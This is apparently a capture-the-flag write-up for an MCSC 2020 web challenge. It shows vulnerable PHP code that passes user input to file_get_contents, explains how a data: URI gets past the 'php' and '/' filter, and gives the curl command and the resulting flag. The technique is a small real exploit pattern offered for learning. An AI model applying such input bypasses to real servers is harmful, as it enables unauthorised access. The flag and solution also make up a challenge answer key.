

## MCSC 2020
### 1337 Flag (Web)



Let's check out that page

```php
<?php

require_once('flag.php');
error_reporting(0);

if(!isset($_POST['msg'])){
    highlight_file(__FILE__);
    die();
}

$msg = $_POST['msg'];
$msg = str_replace( array( "php","/" ), "", $msg );
if(@file_get_contents($msg)!=="133720"){
    die();
}

echo $flag;

```
It shows its source code
But we can see here
```php
$msg = $_POST['msg'];
$msg = str_replace( array( "php","/" ), "", $msg );
if(@file_get_contents($msg)!=="133720"){
    die();
}
```
we can see POST parameter ```$msg```
But, ```php``` and ```/``` in msg will be removed. So, we can't exploit with ```Remote File```.

But ```Data wrapper``` will work
```php
data:,133720
```
So, let's exploit it
[Here I use command ```curl```]
```shell
curl -d 'msg=data:,133720' -X POST http://103.89.49.14/a38e83e34ef85b1ed944e40c2a5eb481/index.php
```
Outputs
> MCSC{PHP_With_Data_UrI_LeaRning}

Bingo!!!

*Author ( A'P Jake )*